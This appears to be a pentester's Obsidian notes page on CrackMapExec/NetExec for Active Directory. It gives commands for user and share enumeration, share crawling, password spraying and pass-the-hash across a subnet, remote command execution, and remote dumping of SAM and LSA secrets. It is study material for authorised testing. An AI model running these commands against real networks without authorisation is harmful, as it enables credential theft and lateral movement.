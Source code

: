 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
A post-exploitation tool for assessing the security of *large Active Directory networks*. CME supports a number of protocols: [[MSSQL]], [[SMB & RPC]], [[SSH]], [[WinRM]] etc (can be listed in the help section of the CLI). With this tool we can also brute force user credentials with dictionary attacks. Once we have access we can use a tool like [[Evil-Winrm]] to efficiently communicate with the winrm service.

> A community open-source version is [NetExec](https://github.com/Pennyw0rth/NetExec) which is based on the original CME by its original contributors
> https://www.netexec.wiki/
## Installation
```
sudo apt-get -y install crackmapexec
```

## Documentation
**Cheatsheet:** 
**Website:** https://web.archive.org/web/20231116172005/https://www.crackmapexec.wiki/
## Usage
```bash
crackmapexec <proto> <target-ip> -u <user or userlist> -p <pass or passlist> -d .
```

### User Enumeration
We can enumerate a host for users. By targeting a Domain Controller and using credentials from a user, we can enumerate all domain users.
```bash
crackmapexec smb [ip] -u [user] -p [pass] --users
```

### Group Enumeration
We can also obtain the groups on a host/domain similarly to above.
```bash
crackmapexec smb [ip] -u [user] -p [pass] --groups
```

### Currently logged on users
We can assert which users are currently logged in on a server
```shell
crackmapexec smb [ip] -u [user] -p [pass] --loggedon-users
```

### List SMB Shares
```bash
crackmapexec smb [ip] -u [user] -p [pass] --shares
```

### Crawl a SMB share
This allows us to use the `spider_plus` module to crawl a share and save the results to `/tmp/cme_spider_plus/<ip>`. We can then comb through the json results and identify any files we might want to look further at (eg. ones that could contain credentials).
```bash
crackmapexec smb [ip] -u [user] -p [pass] -M spider_plus --share '[shareName]'
```

### Password Spraying a domain using Pass-the-Hash
We can perform a password spraying attack on a set of targets to see if we are able to login to any host on a subnet. 
```bash
crackmapexec smb [target(s)] -u [user] -d . -H [hash]

# Try credentials against local administrator password on each host
crackmapexec smb 10.129.201.0/24 -u Administrator -d . -H [administrator_hash] --local-auth
```
The `--local-auth` can also be added if we want to attempt to login via local credentials on the host (eg. the local administrator password). 
> If we discover systems all using the same administrator password, we could recommend the use of the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) which randomises the local admin password and can also rotate it on fixed intervals.

The `-x` flag can be used to execute a command too

### Extracting Hashes from SAM Database
**Remote dumping** of the LSA secrets & SAM databases can also be done via tools like `crackmapexec` using a local administrator account:
```bash
$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --lsa

$ crackmapexec smb [ip] --local-auth -u [user] -p [pass] --sam
```